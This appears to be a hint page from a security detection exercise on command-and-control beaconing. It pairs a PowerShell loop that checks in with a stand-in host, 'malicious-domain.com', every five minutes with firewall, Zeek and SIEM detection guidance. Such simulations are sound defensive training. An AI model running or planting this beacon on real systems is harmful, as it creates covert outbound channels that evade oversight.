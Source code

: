 # Hint 4: C2 Beaconing

## Scenario Overview

Simulates command-and-control (C2) beaconing using periodic HTTP requests to an external malicious domain.

## Simulation Steps

**Scheduled Beacon:**
```powershell
while($true) {
    Invoke-WebRequest -Uri "http://malicious-domain.com/checkin" -UseBasicParsing
    Start-Sleep -Seconds 300
}
```

## Detection Guidance

- **Key Logs/Events:**
  - Firewall logs: Outbound to external IPs
  - Zeek/Wireshark: Regular HTTP intervals
- **SIEM Query Example:** `destination.ip:"malicious-domain.com" AND event.action:"connection_attempt"`
- **What to Look For:** Repeated outbound connections to suspicious domains or IP addresses at regular intervals.

## Example Log Artifacts

(Paste actual log lines or reference screenshots here if available.)

## Additional Notes

Correlate firewall and network logs with threat intelligence; look for beaconing patterns in netflow or proxy logs.
